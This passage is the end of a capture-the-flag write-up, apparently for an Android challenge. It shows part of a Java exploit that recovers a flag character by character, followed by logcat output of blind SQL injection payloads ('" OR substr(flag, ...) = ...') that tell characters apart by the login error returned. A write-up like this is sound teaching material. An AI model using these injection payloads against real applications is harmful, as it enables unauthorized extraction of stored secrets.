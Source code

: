 ```java
                } else {  
                    testChar++;  // Try next character  
                }  
            }  
  
            // Continue extracting characters until the full flag is found  
            if (currentIndex < knownPrefix.length() + 32 + 1) {  
                extractNextChar();  
            }  
        }  
    }  
}
```

Run **logcat** while your app is **executing** and here's the output:
```bash
[...]
[...]
[...]
D/Exploit (11501): Here's your flag: 608dc6110462ee35488edf83443fbbc
D/Received(10176): " OR substr(flag, 84, 1) = "0" --:asdasdas
D/Username(10176): " OR substr(flag, 84, 1) = "0" --
D/Result  (10176): User does not exist
D/Received(10176): " OR substr(flag, 84, 1) = "1" --:asdasdas
D/Username(10176): " OR substr(flag, 84, 1) = "1" --
D/Result  (10176): User does not exist
D/Received(10176): " OR substr(flag, 84, 1) = "2" --:asdasdas
D/Username(10176): " OR substr(flag, 84, 1) = "2" --
D/Result  (10176): User does not exist
D/Received(10176): " OR substr(flag, 84, 1) = "3" --:asdasdas
D/Username(10176): " OR substr(flag, 84, 1) = "3" --
D/Result  (10176): Incorrect password
D/Exploit (11501): Here's your flag: 608dc6110462ee35488edf83443fbbc3
```


I hope you found it useful (: